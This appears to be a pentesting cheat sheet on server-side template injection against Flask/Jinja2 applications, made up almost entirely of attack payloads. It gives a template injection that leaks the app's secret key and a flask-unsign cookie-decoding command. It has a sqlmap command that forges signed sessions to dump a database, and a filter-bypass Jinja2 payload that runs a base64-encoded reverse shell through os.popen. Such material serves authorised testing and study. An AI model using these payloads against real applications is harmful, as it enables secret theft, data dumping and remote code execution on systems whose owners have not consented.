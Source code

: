 # Server side template injection
## Flask Jinja2 
Get the secret key
```txt
{{config}}
```
Decrypt the cookie
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
SQLi in flask session with sqlmap
```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```
Bypass filtered ->  `'` `_` `.` `{{}}` `if` `for` 
```txt
{% with abuqasem=request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo <Base64EncodedReverseShellCommand> | base64 -d | bash -i")["read"]() %}abuqasem{% endwith %}
```
### Further reading
- [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI)  
- [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html)  
- [https://jinja.palletsprojects.com/en/2.10.x/templates](https://jinja.palletsprojects.com/en/2.10.x/templates)/
- [https://book.hacktricks.xyz/pentesting/pentesting-web/flask](https://book.hacktricks.xyz/pentesting/pentesting-web/flask)
